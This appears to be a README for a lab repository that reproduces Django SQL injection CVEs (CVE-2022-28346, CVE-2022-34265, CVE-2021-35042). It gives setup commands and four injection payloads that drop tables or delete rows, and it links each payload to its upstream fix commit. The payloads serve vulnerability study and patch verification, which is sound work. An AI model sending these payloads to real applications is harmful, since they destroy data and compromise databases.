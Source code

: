 ## How to setup environment

### setup db
```
docker run -d -p 50000:5432 -e POSTGRES_PASSWORD=qwe123QWE -e POSTGRES_DB=db postgres:14.1
```

### execute migration
```
python manage.py makemigrations cve

python manage.py migrate
```

### setup service
```
python manage.py runserver
```


Issue 1: 

Reproduction: CVE-2022-28346: field=count" from cve_user group by cve_user.id;DROP TABLE cve_user;--     

Fix: https://github.com/django/django/commit/93cae5cb2f9a4ef1514cf1a41f714fef08005200 

 

Issue 2: 

Reproduction: CVE-2022-28346: options={"select * from cve_blog_post); DROP TABLE cve_blog_post;--":""}   

Fix: https://github.com/django/django/commit/93cae5cb2f9a4ef1514cf1a41f714fef08005200

 

Issue 3: 

Reproduction: CVE-2022-34265: input=year%27%20FROM%20pub_date))%20OR%201=1;DELETE%20FROM%20Question--

Fix: https://github.com/django/django/commit/54eb8a374d5d98594b264e8ec22337819b37443c  

 

Issue 4: 

Reproduction: CVE-2021-35042  order_by=cve_user.id);drop table cve_user; -- 

Fix: https://github.com/django/django/commit/a34a5f724c5d5adb2109374ba3989ebb7b11f81f  